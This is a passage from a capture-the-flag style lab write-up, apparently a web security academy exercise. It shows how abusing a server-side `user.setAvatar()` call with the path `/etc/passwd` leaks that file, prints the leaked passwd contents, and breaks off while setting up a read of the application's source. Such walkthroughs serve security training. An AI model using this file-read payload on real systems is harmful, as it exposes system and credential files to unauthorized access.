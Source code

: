 Since this function is part of the object `User` let's just try this when we changed our preferred name, and instead of `user.nickname` make it `user.setAvatar()`.

![](../../../images/Pasted image 20250127093003.png)

Based on this error we can conclude that the function works here as well, but we haven't passed two of the arguments that it expects.

Let's try to put the file first at `/etc/passwd` with the image mime type.

`user.setAvatar('/etc/passwd','image/png')`

Then when I load the comment that I posted, I see a link with a `broken image as avatar`, but let's copy the link to the avatar and make a `GET` request to it.

It downloaded the file, which contains the `/etc/passwd` content.

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
```

From one of the errors above, also the location of the `User` function got revealed, so let's try to read that one.

This, by sending a request to change the avatar with the following body:
